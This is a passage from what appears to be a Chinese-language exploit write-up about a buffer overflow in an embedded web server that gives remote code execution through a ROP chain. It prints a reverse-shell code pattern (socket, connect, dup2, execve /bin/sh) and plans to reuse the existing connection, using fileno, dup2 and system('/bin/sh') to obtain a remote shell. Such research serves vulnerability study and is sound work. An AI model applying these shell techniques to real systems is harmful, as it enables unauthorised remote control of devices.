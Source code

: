   
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSWGjiaxicD2QJYKeDNqbShKj0TDRE3czBKePic02OSXHkIe2HM5cY7Km7lwkZ5q1UUzMSiaGXDkj4W5w/640?wx_fmt=png&from=appmsg "")  
  
  
是的，RCE！  
但自从分析了反编译的调度器函数后，另一种可能的解决方案一直萦绕在我的脑海中。  
我一直在想，这是否真的可行。  
是时候去验证一下了——接下来进入第二部分。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**九、更进一步**  
  
  
让我们稍微回顾一下，由于缓冲区溢出而导致控制流转移到我们选择的位置的代码部分。我们可以看到，在返回语句之前不久，有两个fwrite调用将响应写入到与发送原始请求的客户端连接的socket_stream中。这使我得出以下两个假设：  
  
- 当ROP链被触发时，连接尚未关闭。  
  
- 某个寄存器中很可能仍存放着对socket_stream的引用。  
  
  
  
```
write_response_header(socket_stream,0x68)；
    fwrite("<html><head><title>404 File Not Found</title></head>\n",1,0x35,socket_stream)；
    fwrite("<body>The requested URL was not found on this server</body></html>\n",1,0x43,socket_stream)；
    return 0；
} 

```  
  
  
这让我想起了CTF挑战，其中易受攻击的二进制文件通过套接字暴露，通常使用socat。在这些情况下，编写shellcode实现RCE的常用方法如下[16]：  
  
```
fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)； // create socket
connect(fd, (struct sockaddr *) &serv_addr, 16)； // connect
dup2(fd, 0)； // dup socket and STDIN
dup2(fd, 1)； // dup socket and STDOUT
dup2(fd, 2)； // dup socket and STDERR
execve("/bin/sh", 0, 0)； // execute /bin/sh

```  
  
  
socket()函数使用指定的域（domain）、类型（type）和协议（protocol）创建一个新的套接字。然后，connect()建立与目标地址的连接。连接成功后，dup2()被调用三次，将套接字文件描述符重定向到标准输入（STDIN）、标准输出（STDOUT）和标准错误（STDERR），从而将shell的I/O绑定到套接字上。最后，execve()执行/bin/sh，生成一个通过已建立连接进行通信的shell。  
  
  
在上述情况下，我已经完成了这一策略的一半。我已经有了一个套接字/连接，所以剩下的就是调用dup2和system，对吧？这将允许我重用已经建立的连接作为shell。  
  
我有一个FILE*stream，但是dup2需要的是整数形式的文件描述符。所以还需要一个额外的步骤-调用fileno()来获取相应的文件描述符。因此，这个计划大致如下：  
  
```
fd = fileno(stream)
dup2(fd, 0)
dup2(fd, 1)
dup2(fd, 2)
system("/bin/sh")

```  
  